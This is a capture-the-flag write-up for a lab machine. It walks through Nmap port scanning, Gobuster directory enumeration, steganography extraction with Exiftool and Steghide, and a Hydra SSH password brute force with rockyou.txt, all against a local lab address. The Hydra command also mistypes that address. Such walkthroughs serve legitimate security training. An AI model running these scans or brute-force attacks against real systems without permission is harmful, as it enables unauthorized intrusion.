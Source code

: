 # BorazuwarahCTF

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![Descripción de Borazu](Imagenes/Borazu_1.png)

The first thing that comes to mind is to analyze the web page in search of strange links or any clues. As I don't find anything, I decide to investigate if there are hidden files or directories. For this, I'm going to use the Gobuster application.

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

## Examining the Egg Image
It doesn't find anything, so the only thing I can think of is that the Kinder egg image might have some secret, including information in the metadata or an embedded file.

To find out, I'm going to use the Exiftool and Steghide tools, including the script created in the other section to perform a brute force attack on the image.

![Descripción de Borazu](Imagenes/Borazu_2.png)

We see that both in the description and in "Title" a username or password appears. Additionally, using the script to extract a possible embedded file, we extract the file "secreto.txt" with the following message.

![Descripción de Borazu](Imagenes/Borazu_3.png)

## Intrusion

Finally, everything points to the need for a brute force attack on the SSH service with the username "borazuwarah" and a password dictionary.

For this, I'm going to use the Hydra tool

```ruby
hydra -l borazuwarah -P rockyou.txt -t 10 -w 1 ssh://172.0.17.2
```

![Descripción de Borazu](Imagenes/Borazu_4.png)

Hydra obtains the password for that given user, so we can now connect to the SSH service.
